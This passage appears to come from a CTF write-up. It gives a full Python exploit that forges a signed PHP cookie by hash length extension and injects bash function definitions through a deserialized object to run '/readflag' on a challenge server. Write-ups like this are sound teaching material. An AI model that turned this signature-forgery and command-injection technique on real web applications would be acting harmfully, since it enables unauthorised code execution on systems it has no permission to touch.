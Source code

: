 After sending the request of and fiddling around with commands, we notice that in the `/` directory, there is a binary called `/readflag`, very similar to the `Shero` qualifying challenge. We just call the binary and get our flag!

The full exploit is as follows

## Solution

```python
import hashpumpy
import requests
import urllib.parse

info = b"""O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:1:{s:4:"name";s:7:"GreyCat";}}"""
signature = "ac404ceb2667d969d171a2f41dea1c110fd8020ad088237fe53ab293631f93ee"

data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:10:"() { id; }";}}"""
url = "http://34.142.161.21:12321/hello.php"



def figureOutLength():
    for i in range(1,512):
        sig, payload = hashpumpy.hashpump(signature, info, data_to_add, i)
        payload = urllib.parse.quote_plus(payload)
        cookies = {
            "info": payload,
            "signature": sig
        }
        r = requests.get(url, cookies=cookies, allow_redirects=False)

        if(r.cookies['signature'] == signature):
            print('bad')
        else:
            print('good', i)
            print(r.text)
            break

# rce = 'ls -la'
length = 25
data_to_add = """|O:8:"Greeting":1:{s:14:"\x00Greeting\x00info";a:3:{s:4:"name";s:7:"GreyCat";s:16:"BASH_FUNC_echo%%";s:10:"() { id; }";s:16:"BASH_FUNC_echo()";s:17:"() { /readflag; }";}}"""
sig, payload = hashpumpy.hashpump(signature, info, data_to_add, 25)
payload = urllib.parse.quote_plus(payload)
cookies = {
    "info": payload,
    "signature": sig
}
r = requests.get(url, cookies=cookies, allow_redirects=False)
html = r.text.split('\n\n<html>')[0]

print()
print(r.text)
```
